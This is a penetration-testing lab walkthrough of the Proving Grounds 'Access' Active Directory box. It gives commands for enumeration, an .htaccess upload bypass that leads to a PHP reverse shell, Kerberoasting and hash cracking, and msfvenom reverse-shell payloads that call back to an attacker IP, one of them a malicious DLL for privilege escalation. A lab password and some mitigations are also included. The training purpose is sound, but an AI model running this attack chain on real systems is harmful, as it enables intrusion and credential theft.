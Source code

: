 ```yaml
---
title: Access
date: 2025-04-18
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough] 
image: access.jpg
media_subpath: /assets/img/posts/2025-04-18-access/
---
```

## Introduction
In this walkthrough we will be solving Proving Grounds Intermediate Active Directory Windows box Access. Let’s start ..

## Nmap

### TCP

Run a quick Nmap scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Run UDP scan on top 100 ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

No valuable UDP ports are found.

### Full Nmap Scan

```bash
sudo nmap -sV -sC $IP --open
```

Add domain to `/etc/hosts` file

## Services

### Port 53

**Digging any records** of the domain:

```bash
dig any access.offsec @$IP
```

![image.png](image%202.png)

**Zone transfer **

```bash
dig axfr @$IP access.offsec
```

![image.png](image%203.png)

### Port 139/445

- enum4linux

```bash
enum4linux $IP
```

![image.png](image%204.png)

## Web

### Port 80

When accessing the page we can find  Tickets place where I chose Pro-Access and saw upload functionality, that means we can try to upload PHP reverse shell and execute it from browser.

**Directory Fuzzing**

```bash
 gobuster dir -u http://$IP/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 42
```

![image.png](image%205.png)

we have uploads directory too.

Trying to upload raw **php** file returns the following error:

![image.png](image%206.png)

I fuzzed with BurpSuite for not-blacklisted php extension but no extension returned success.

### Port 443

This site is the same as one with HTTP

## AD Initial Enumeration

### Port 389/3268

```bash
ldapsearch -x -H ldap://$IP -D '' -w '' -b "DC=access,DC=offsec" | grep descr -A 3 -B 3 - did not return anything
```

```bash
ldapsearch -x -H ldap://$IP -D '' -w '' -b "DC=access,DC=offsec" #- returns operation error
```

![image.png](image%207.png)

## Exploitation

If blacklist filters don’t work and SSH is not present on the target system( as in that case we could upload `authorized_keys` file with directory traversal) we should try to override upload directory configuration file. 

> Many servers also allow developers to create special configuration files within individual directories in order to override or add to one or more of the global settings. Apache servers, for example, will load a directory-specific configuration from a file called `.htaccess` if one is present.
{: .prompt-info}

Add the content :`AddType application/x-httpd-php .l33t`, to the `.htaccess`, this maps an arbitrary extension `.133t` to the executable MIME type `application/x-httpd-php`, then upload that file with specified extension (l33t) and run it, it will be run as PHP file.

Now we got reverse shell:

![image.png](image%208.png)

## Credentials

`svc_mssql : trustno1`


## Privilege Escalation

### Enumeration

![image.png](image%209.png)

there is another service account

Before moving on we are service account but we don’t have full privileges, let’s try to gain them first:

- **[FullPowers](https://github.com/itm4n/FullPowers)**
    
    ![image.png](image%2010.png)
    
    I couldn’t gain Full Powers using FullPowers.exe
    
- [Gaining Full Privileges](https://itm4n.github.io/localservice-privileges/?source=post_page-----b95d3146cfe9---------------------------------------)
   This method didn’t work either
    
    ![image.png](image%2011.png)
    

## Post-Compromise Attacks

**Kerberoasting**

```bash
Rubeus.exe kerberoast /outfile:hashes.txt
```

![image.png](image%2012.png)

Now we have mssql account hash let’s try to crack it using hashcat

```bash
hashcat -m 13100 mssql.hash /usr/share/wordlists/rockyou.txt --force
```

![image.png](image%2013.png)

Now that we have password of svc_mssql service account, we should do lateral movement:

- **PsExec**
    
    I tried with PsExec but it did not work
    
- **Invoke-Runas.ps1**
    - I tried to spawn directly a cmd shell but it didn’t work
    
    ```bash
    Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "cmd.exe" 
    ```
    
    - Let’s generate a reverse shell instead and execute it on the target system
        
        ```bash
        msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.237 LPORT=445 -f exe > shell.exe
        ```
        
        ```bash
        Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "C:\new\shell.exe"
        ```
        
    
    ![image.png](image%2014.png)
    
    Now we have a shell in the context of the mssql service account
    

I hoped this account would have SeImpersonatePrivilege but no, this account has SeManageVolumePrivilege.

![image.png](image%2015.png)

Looking for ways to exploit this privilege I found this github repo:

I did exactly what it said [here](https://github.com/xct/SeManageVolumeAbuse), [here](https://github.com/CsEnox/SeManageVolumeExploit) you can find necessary script compiled.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.237 LPORT=135 -f dll -o tzres.dll
```

![image.png](image%2016.png)

## Mitigation

- In Apache, set `AllowOverride None` in the main config to prevent malicious `.htaccess` modifications.
- Ensure service accounts have **long, complex passwords** (25+ chars) to resist cracking.
- Only grant SeManageVolumePrivilege privilege to **highly trusted administrators**.
